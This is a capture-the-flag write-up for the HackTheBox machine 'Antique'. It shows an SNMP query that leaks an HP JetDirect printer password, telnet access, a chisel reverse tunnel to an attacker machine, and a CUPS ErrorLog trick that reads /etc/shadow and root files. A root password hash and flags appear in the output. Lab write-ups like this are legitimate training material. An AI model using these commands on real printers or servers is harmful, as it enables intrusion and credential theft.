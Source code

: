 ```yaml
---
title: Antique writeup
date: 2022-06-17 12:00:00 +0200
categories: [Writeup, HackTheBox]
tag: ["Easy-box", "chisel", "printer"]
img_path: /assets/img/boxes/antique/
toc: true
image:
  src: Antique.png
  width: 1000   # in pixels
  height: 400   # in pixel
---
```

## Summary
This box is centered around exploiting a misconfigured HP JetDirect printer via snmp. It also covers port forwarding an exploiting the [CUPS](https://en.wikipedia.org/wiki/CUPS) service, which is a modular printing service for Unix-like computer systems. Let's take a look!

## Foothold
starting an nmap scan, we see a telnet service on port 23. It says something about HP jetdirect when trying to connect to it via telnet.

we also do a UDP scan on the address, with the -sU tag. This takes a while

The only port open and unfiltered besides telnet is 161/udp:
```console 
# Nmap 7.92 scan initiated Sat Jun 11 00:39:54 2022 as: nmap -sU -sC -sV -o nmap/udp.txt 10.129.71.148
Nmap scan report for 10.129.71.148
Host is up (0.025s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT      STATE         SERVICE VERSION
68/udp    open|filtered dhcpc
161/udp   open          snmp    SNMPv1 server (public)
40441/udp open|filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 11 00:59:53 2022 -- 1 IP address (1 host up) scanned in 1198.94 seconds
```

running `snmpwalk -v 1 -c public $IP` reveals its a printer named HTB Printer. Since the only available entrypoint seems to be this printer, we better find out how to exploit it. [This](http://www.irongeek.com/i.php?page=security/networkprinterhacking) blogpost goes into a lot of detail on how exploit a HP jetdicrect printer which has not been configured correctly. Basically, if the right string is sent to the printer it will respond with its own password.

This can be exploited with the following command:
```console
snmpwalk -v 1 -c public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```
This returns some hexcodes. decoding this shows a password:
P@ssw0rd@123!!123

Log in to the telnet service with this password

Once logged in to the telnet service, the `exec id` command can be used to find who we are connected as. We can see that we are the user lp, within the lpadmin group. To get a reverse shell, simply prepend exec to any reverse shell payload you want to use. Most should work.

userflag:f48580e6c8557d0426e3413517504121

## Privilege escalation
we run `ss --tulnp` and get the following:

```console
lp@antique:~$ ss -tulnp
ss -tulnp
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                      
udp     UNCONN   0        0                0.0.0.0:161           0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:23            0.0.0.0:*       users:(("python3",pid=1150,fd=3))                                              
tcp     LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*                                                                                      
tcp     LISTEN   0        4096               [::1]:631              [::]:*                                                                                      
lp@antique:~$ 
```
the interesting part of this output is that the machine is listening on port 631 since this port did not show up on our scans.
I will use chisel to set up a listening port on my machine which i can then use to communicate with port 631 on the target machine

on the attacker machine we run the following command: `./chisel server --reverse -p 8000`

on the victim machine: `./chisel client 10.10.17.182:8000 R:8001:127.0.0.1:631`


output of chisel server once connection has been esablished:
```console
./chisel server --reverse -p 8000
2022/06/11 01:27:02 server: Reverse tunnelling enabled
2022/06/11 01:27:02 server: Fingerprint gV7xDnh1btaUqoCrX8/mA9qgIZzsnrA2m1TEsRKLmO0=
2022/06/11 01:27:02 server: Listening on http://0.0.0.0:8000
2022/06/11 01:30:19 server: session#1: tun: proxy#R:8001=>631: Listening
```
when visiting localhost:8001 in our browser we get greeted with the following page
![Cups service landing page](port631.png){: width="972" height="589" }

searching for exploits in cups 1.6.1 leads us to the following link <https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/>

We can read files as root through the error log page on cups through the error log path.

To change the path we need to use cupsctl. See below

```console
p@antique:~$ cupsctl 'ErrorLog'=/etc/shadow
cupsctl 'ErrorLog'=/etc/shadow
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   999  100   999    0     0   975k      0 --:--:-- --:--:-- --:--:--  975k
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
---SNIP---
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

We can of course crack the root hash and login as root, however we can also just change the error log path to /root/root.txt and read the root flag:

```console
lp@antique:~$ cupsctl "ErrorLog"=/root/root.txt
cupsctl "ErrorLog"=/root/root.txt
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
41a5b5db9f352acb5da454924de84bea
lp@antique:~$ 
```